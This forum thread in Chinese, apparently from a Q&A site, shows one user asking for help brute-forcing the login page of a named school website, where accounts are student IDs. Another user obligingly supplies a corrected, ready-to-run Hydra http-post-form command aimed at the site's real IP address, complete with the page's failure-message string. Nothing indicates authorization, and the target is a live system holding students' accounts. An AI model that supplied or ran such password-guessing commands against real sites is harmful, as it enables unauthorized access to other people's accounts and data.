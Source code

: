 - c :指定的你目标信道，根据你的图片是说目标ap（路由器）工作在信道10，但是你指定的是信道1

**18 天后**

# [M**m4d93aaa**](https://freeerror.org/u/m4d93aaa)

- 2018-11-17 14:00:22

HEY zhzy 我有問題 關於hrydra

- **[zhzy](https://freeerror.org/u/zhzy)**
- 2018-11-17 14:02:58
- 已编辑

你可以在发表一个帖子，或者直接问吧

# [M**m4d93aaa**](https://freeerror.org/u/m4d93aaa)

- 2018-11-17 14:06:17

这是我要暴力破解的网址>> [http://register2.elvs.chc.edu.tw/winrh/](http://register2.elvs.chc.edu.tw/winrh/)

这是我的指令>>

hydra -l 511106 -P“C：\ Users \ jj lin \ Desktop \ thc-hydra-windows-master \ 5566.txt”-vV -t 10 -f 163.23.157.112 http-post-form“/ winrh /：account=^ USER＆密码= PASS＆submit2n：S = TOP_TITLE”

她错误会跳出错误框所以我用白名单作为判断条件，但是我不知道如何做白名單的判斷。以上是学校的网站，密码是身

帳號是學號

- **[zhzy](https://freeerror.org/u/zhzy)**
- 2018-11-17 14:08:30

你稍等下，我尝试一些代码命令，随后在发给你，可能5-20分钟

# [M**m4d93aaa**](https://freeerror.org/u/m4d93aaa)

- 2018-11-17 14:10:45
- 已编辑

[https://www.notion.so//note.youdao.com/src/EE79C58228B54B2680BFCD272B5462DC](https://www.notion.so//note.youdao.com/src/EE79C58228B54B2680BFCD272B5462DC)

這是密碼錯誤的時候

@zhzy

#433 大神倘若需要登入成功的帳號密碼告訴我，因為這是學校網站，不提供註冊。在這邊謝謝大神因為我花了4天了一直找不到原因

- **[zhzy](https://freeerror.org/u/zhzy)**
- 2018-11-17 14:26:53

命令就是这样的了

hydra -l admin -P Tools/zhzy-pass.txt -vV -t 1 -e ns -f -I 163.23.157.112  http-post-form "/winrh/:Account=^USER^&Password=^PASS^&submit2=submit2:F=帳號或密碼錯誤,請再重輸入一次...如有問題請洽電腦中心!!"
